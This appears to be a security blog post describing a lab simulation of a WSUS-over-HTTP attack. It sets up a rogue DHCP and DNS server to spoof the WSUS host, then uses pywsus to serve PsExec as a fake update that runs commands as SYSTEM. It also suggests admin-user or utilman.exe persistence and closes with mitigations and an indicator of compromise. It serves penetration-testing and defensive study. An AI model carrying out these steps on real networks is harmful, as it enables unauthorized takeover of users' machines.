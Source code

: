 ```yaml
---
layout: post
title: Exploiting WSUS misconfiguration to priviledge escalate controlling DHCP
---
```


In this post we will explore a simulation of a possible attack that I have spotted in the wild. Given that by company policy I am not allowed to alter the original PCs, this will be a simulated environment using VMs recreated as loyally as possible to the original golden image.

# Pre-requisites
- Being able to control the network's DHCP.
  - This can be achieved in multiple ways in reality, but the way I'll do it is by bridging network interfaces and disconnecting the "wifi".
  - An example of more "stealthy" attack would be to host a wifi network.
- Having a DNS server (possibly on the same network).
- [pywsus](https://github.com/GoSecure/pywsus).
- [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/) or any Microsoft signed executable.

# Detection
```
PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
  [...output...] http://wsusserver.domain.internal

PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
  UseWUServer    REG_DWORD    0x1
```

If we get http (and NOT https) in the first output and 0x1 in the second, it means the system is vulnerable and we note down the domain name of the WSUS server.

This attack uses the fact that http requests are not authenticated. We also should be wary of people possibly sniffing DNS queries if they own the network as often the domain names for the WSUS servers are fairly recognizeable and could leak the targeted domain to spoof later on (finding out the domain name without access to the machine).

# Setup
To perform this attack I will use a Kali machine with the following packages installed from `apt`: `isc-dhcp-server` and `dnsmasq` (technically dnsmasq also has a DHCP server) and the git clone'd pywsus.
The target machine is a Windows 10 machine. We normally are only given a AD User without access to the machine's administration.

We want the two machines to be in the same network, either by having one common "internet-less" connection or, say in a more realistic scenario, by being in the same wifi (and maybe guessing the often weak admin password for the router). Normally this attack is performed using [bettercap](https://github.com/bettercap/bettercap) but in this case I decided to go for a different route as I am not sure how easy it is to get into the same subnet in the company environment (and I didn't want to try and upset the IT department (again)).

## dhcp
We will configure the attack box on IP `192.168.222.1` as the gateway, dhcp server and dns server (and later on the wsus server too).
The subnet will be `192.168.222.0/24` and we will let the Windows client pick any IP

Edit `/etc/dhcp/dhcpd.conf`:

```
subnet 192.168.222.0 netmask 255.255.255.0 {
  interface eth1;
  range 192.168.222.10 192.168.222.50;
  option subnet-mask 255.255.255.0;
  option routers 192.168.222.1;
  option domain-name-servers 192.168.222.1, 192.168.222.10;
  option domain-name "swag.com";
}
```


Edit `/etc/default/isc-dhcp-server`:

```
# Edit with the interface that shares the connection with the Windows machine
INTERFACESv4="eth1"
INTERFACESv6=""
```

```
sudo ifconfig eth1 192.168.222.1/24
sudo systemctl restart isc-dhcp-server.service
```

## dns
We modify `/etc/dnsmasq.conf` as follows:

```
domain-needed
listen-address=127.0.0.1
listen-address=192.168.222.1
bind-interfaces

address=/wsusserver.domain.internal/192.168.222.1
```


```
sudo ifconfig eth1 192.168.222.1/24
sudo systemctl restart dnsmasq
```

----

Now we verify that the Windows box, once connected to the same network (might require to disable and re-enable the interface) automatically gets an IP address and sets the DNS to our attacker box. This is important because changing the DNS settings or any adapter's settings requires admin privileges.

Opening a Powershell (or cmd) and running `ping wsusserver.domain.internal` should yield the IP of our attacker machine. If this is all correct we can proceed with the attack

# Attack

First we download the PsExec binary files from [Sysinternals](https://live.sysinternals.com/), it's important that the executable we're gonna use for the payload is signed by Microsoft and this is a great candidate.
Second, we git pull [pywsus](https://github.com/GoSecure/pywsus) which will emulate a WSUS server and serve a fake update with our payload. This may require the manual install of some libraries which I found perfectly available using `apt install`.

Once pulled and downloaded all that's left to do is giving a command and deploying the payload, for our example we will just write the output of `whoami` to a file in `C:\` but potentially this can be used to add a user as admin or achieve other types of persistence such as moving the `cmd.exe` in the place of `utilman.exe`

```
python3 pywsus.py -H 192.168.222.1 -p 8530 -e /path/to/PsExec64.exe -c '/accepteula /s cmd.exe /c "whoami > C:\\poc.txt"'
```

Then we either wait for Windows to check updates or we start the update check ourselves and wait for it to "install updates". You should find a file in `C:\poc.txt` containing `nt authority/system` confirming that we did in fact ran a command as System on the target machine.

# Mitigations
As suggested from the Github page of pywsus, here's some possible mitigations for this attack:
The three major ways of generating a certificate for a WSUS server are:
- Using an internal PKI for which a Root CA certificate is deployed on domain computers and a certificate signed by that Root CA is used to serve WSUS updates
- Purchasing a certificate signed by a third-party CA authority trusted in the Windows OS trust store
- Using a self-signed certificate and push a copy of this certificate on all domain computers using a GPO

As a possible IOC, the attacked computer will report extra updates or at least it keeps a list of them. Looking for non-approved ones would help.
